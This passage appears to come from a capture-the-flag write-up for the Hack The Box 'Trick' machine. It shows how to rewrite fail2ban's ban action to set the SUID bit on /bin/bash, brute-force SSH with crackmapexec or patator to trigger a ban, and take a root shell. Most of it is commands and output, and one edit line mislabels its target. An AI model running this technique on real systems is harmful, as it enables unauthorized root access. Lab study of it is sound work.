 ```
```
Edit the following lines
`actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>`   to  `actionban = chmod u+s /bin/bash` and
`actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>`  to  `actionban = chmod u+s /bin/bash`

Bruteforce the server with wrong credentials until you are banned. This can be done by using `crackmapexec` or `patator` through the following:
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/trick]
└─$ crackmapexec ssh trick.htb -u users.txt  -p passwords.txt
SSH         trick.htb       22     trick.htb        [*] SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2                                                                                               
SSH         trick.htb       22     trick.htb        [-] Abigail:123456 Authentication failed.                                                                                                 
SSH         trick.htb       22     trick.htb        [-] Abigail:12345 Authentication failed.                                                                                                  
SSH         trick.htb       22     trick.htb        [-] Abigail:123456789 Authentication failed.                                                                                              
SSH         trick.htb       22     trick.htb        [-] Abigail:password Authentication failed.                                                                                               
SSH         trick.htb       22     trick.htb        [-] Abigail:iloveyou Authentication failed.                                                                                               
SSH         trick.htb       22     trick.htb        [-] Abigail:princess [Errno None] Unable to connect to port 22 on 10.10.11.166                                                            
SSH         trick.htb       22     trick.htb        [-] Abigail:1234567 [Errno None] Unable to connect to port 22 on 10.10.11.166                                                             
SSH         trick.htb       22     trick.htb        [-] Abigail:rockyou Authentication failed.                                                                                                
SSH         trick.htb       22     trick.htb        [-] Abigail:12345678 Authentication failed.                                                                                               
SSH         trick.htb       22     trick.htb        [-] Abigail:abc123 [Errno None] Unable to connect to port 22 on 10.10.11.166                                                              
SSH         trick.htb       22     trick.htb        [-] Abigail:nicole [Errno None] Unable to connect to port 22 on 10.10.11.166                                                              
SSH         trick.htb       22     trick.htb        [-] Abigail:daniel [Errno None] Unable to connect to port 22 on 10.10.11.166  
```
**OR**
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/trick]
└─$ patator  ssh_login host=trick.htb user=FILE0 password=FILE1 0=users.txt 1=~passwords.txt
```
**Restart service.**
```
bash-5.0$ sudo /etc/init.d/fail2ban restart
sh: 0: getcwd() failed: No such file or directory
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
bash-5.0$ 
```
Check for the /bin/bash binary to see if it has changed to `SUID` 
```
bash-5.0$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```
**Be root.**
```
bash-5.0$ bash -p
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
bash-5.0# whoami
root
bash-5.0# 
```